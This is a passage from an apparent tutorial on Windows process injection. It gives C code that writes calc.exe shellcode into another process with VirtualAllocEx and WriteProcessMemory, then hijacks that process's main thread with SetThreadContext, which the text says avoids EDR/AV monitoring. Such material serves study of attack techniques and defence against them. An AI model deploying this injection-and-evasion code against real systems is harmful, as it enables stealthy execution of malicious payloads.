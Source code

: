 #### 4. Memory Allocation and Shellcode Injection

If the process is successfully created, the code allocates memory in the target process's address space using `VirtualAllocEx`. It then writes the `calc.exe` shellcode to the allocated memory using `WriteProcessMemory`.

```c
    if (result)
    {
        printf("Process created. Injecting calc.exe payload...
");

        // Allocate memory in the target process for the shellcode
        LPVOID remoteMemory = VirtualAllocEx(lpProcessInformation->hProcess, NULL, sizeof(calcPayload),
                                             MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

        if (remoteMemory)
        {
            // Write the payload (calc.exe shellcode) into the remote process
            WriteProcessMemory(lpProcessInformation->hProcess, remoteMemory, calcPayload, sizeof(calcPayload), NULL);
```

#### 5. Thread Hijacking to Execute the Shellcode

Instead of using `CreateRemoteThread` (which is often monitored by EDR/AV), we hijack the main thread of the target process by modifying its context with `SetThreadContext`. Specifically, we set the instruction pointer (`EIP` for 32-bit or `RIP` for 64-bit) to point to the shellcode we just injected. We then resume the thread using `ResumeThread`, allowing the injected shellcode to execute.

```c
            // Hijack the main thread to avoid detection (instead of CreateRemoteThread)
            CONTEXT context;
            context.ContextFlags = CONTEXT_CONTROL;
            GetThreadContext(lpProcessInformation->hThread, &context);

            // Set the instruction pointer (EIP/RIP) to the shellcode in the target process
#ifdef _WIN64
            context.Rip = (DWORD64)remoteMemory;
#else
            context.Eip = (DWORD)remoteMemory;
#endif

            // Apply the modified thread context and resume the thread to execute the shellcode
            SetThreadContext(lpProcessInformation->hThread, &context);
            ResumeThread(lpProcessInformation->hThread);

            printf("Shellcode injected and main thread hijacked to execute calc.exe.
");
        }
        else
        {
            printf("Failed to allocate memory in remote process.
");
        }
    }
    return result;
}
```
